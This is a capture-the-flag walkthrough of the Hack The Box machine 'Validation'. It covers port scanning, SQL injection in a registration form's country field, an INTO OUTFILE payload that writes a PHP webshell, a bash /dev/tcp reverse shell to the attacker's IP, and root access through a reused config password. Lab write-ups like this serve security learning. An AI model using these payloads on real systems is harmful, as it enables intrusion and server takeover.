 ```yaml
---
title: Validation
published: true
layout: post
---
```


<br />

---------------
Validation is an easy difficulty Linux machine that involves exploiting an SQL Injection vulnerability present in a website. By leveraging this vulnerability, we can upload a webshell and gain access as www-data. To escalate privileges to root, we discover credentials within a config file, allowing us to log in as root.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/frx7Ls9-j6U?si=1TkjVuEKPEZvmf2X" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.11.116 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn
```

![](/assets/Validation/1.png)
<br />
<br />
<br />

There are **4 open ports**:
+ **22/tcp**
+ **80/tcp**
+ **4566/tcp**
+ **8080/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.11.116 -p 22,80,4566,8080 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A
```

![](/assets/Validation/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **22/tcp OpenSSH 8.9p1**
+ **80/tcp Apache httpd 2.4.52**
+ **4566/tcp nginx**
+ **8080/tcp nginx**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.11.116 -p 22,80,4566,8080 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn
```

![](/assets/Validation/3.png)
<br />
<br />
<br />

The scan reports nothing interesting.

<br />

------

<br />
### Foothold

The foothold in this machine """easy""", the quotes are there because **SQLi** is very difficult for me.

<br />

We are facing a website that allows us to register for what seems to be a competition:
![](/assets/Validation/4.png)
<br />
<br />
<br />

We can capture the request and see it in **BurpSuite**:
![](/assets/Validation/5.png)
<br />
<br />
<br />

As the country field is "protected" in the website, because it is a **list and not a text field**, we can attempt **SQLi** on it:

```HTTP
username=Tanades&country=Brazil'
```

![](/assets/Validation/6.png)
<br />
<br />
<br />

We get an **SQL error**, so we can start our SQLi enumeration, beginning by discovering how many fields are being selected using an ***ORDER BY*** clause:

```HTTP
username=Tanades&country=Brazil'+ORDER+BY+1+--+//
```

![](/assets/Validation/7.png)
<br />
<br />
<br />

We can now try to exfiltrate information using an ***UNION SELECT*** clause:
```HTTP
username=Tanades&country=Brazil'+UNION+SELECT+database()+--+//
```

![](/assets/Validation/8.png)
<br />
<br />
<br />

Even though this seems like the way to enumerate credentials and escalate privileges, this is not the case, we have to create a **webshell** using an ***INTO OUTFILE*** clause:
```HTTP
username=Tanades&country=Brazil'+UNION+SELECT+"<%3fphp+system($_GET['cmd'])%3b%3f>"+INTO+OUTFILE+"/var/www/html/webshell.php"+--+//
```

![](/assets/Validation/9.png)
<br />
<br />
<br />

Let's see if the command has been successful:
![](/assets/Validation/10.png)
<br />
<br />
<br />

Great let's now send us a **reverse shell**:
```
bash+-c+"bash+-i+>%26+/dev/tcp/10.10.16.10/4444+0>%261"
```

![](/assets/Validation/11.png)
<br />
<br />
<br />

We received the reverse shell, let's **print the flag** for the user htb:

![](/assets/Validation/12.png)
<br />
<br />
<br />


------

<br />
### Privilege Escalation

The privilege escalation for this machine is one of the easiest, we just have to take our time to **read configuration files**.

<br />

In the */var/www/html* directory, we can see a **config.php** file that we couldn't read before as it was being interpreted:

![](/assets/Validation/13.png)
<br />
<br />
<br />

As we can see, this file contains **credentials for the database** for an user called uhc, however this **password also works for the root user**:

```bash
su
script /dev/null -c bash
```

![](/assets/Validation/14.png)
<br />
<br />
<br />
